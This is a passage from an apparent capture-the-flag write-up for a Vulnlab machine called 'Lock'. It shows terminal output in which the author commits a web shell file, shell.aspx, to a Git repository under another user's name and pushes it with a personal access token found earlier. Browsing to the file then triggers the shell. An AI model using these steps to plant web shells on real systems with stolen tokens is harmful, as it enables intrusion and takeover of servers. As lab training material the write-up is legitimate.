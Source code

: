 I configured the repository locally and added the file using basic `git commands`.

```c
┌──(kali㉿kali)-[/media/…/Machines/Lock/files/website]
└─$ git add .
fatal: detected dubious ownership in repository at '/media/sf_infosec/InfoSec/Vulnlab/Machines/Lock/files/website'
To add an exception for this directory, call:

        git config --global --add safe.directory /media/sf_infosec/InfoSec/Vulnlab/Machines/Lock/files/website
```

```c
┌──(kali㉿kali)-[/media/…/Machines/Lock/files/website]
└─$ git config --global --add safe.directory /media/sf_infosec/InfoSec/Vulnlab/Machines/Lock/files/website
```

```c
┌──(kali㉿kali)-[/media/…/Machines/Lock/files/website]
└─$ git config --global user.name "ellen.freeman"
```

```c
┌──(kali㉿kali)-[/media/…/Machines/Lock/files/website]
└─$ git config --global user.email ellen.freeman@lock.vl
```

```c
┌──(kali㉿kali)-[/media/…/Machines/Lock/files/website]
└─$ git commit -m "added shell.aspx"
[main d01689b] added shell.aspx
 1 file changed, 45 insertions(+)
 create mode 100644 shell.aspx
```

As last step I `pushed` the changed to the `remote repository` using the `PERSONAL_ACCESS_TOKEN` which I found earlier.

```c
┌──(kali㉿kali)-[/media/…/Machines/Lock/files/website]
└─$ git push http://43ce39bb0bd6bc489284f2905f033ca467a6362f@10.10.87.100:3000/ellen.freeman/website.git    
Enumerating objects: 4, done.
Counting objects: 100% (4/4), done.
Delta compression using up to 4 threads
Compressing objects: 100% (3/3), done.
Writing objects: 100% (3/3), 1.42 KiB | 728.00 KiB/s, done.
Total 3 (delta 1), reused 0 (delta 0), pack-reused 0
remote: . Processing 1 references
remote: Processed 1 references in total
To http://10.10.87.100:3000/ellen.freeman/website.git
   73cdcc1..d01689b  main -> main
```

To trigger the payload I just had to access it using my browser.
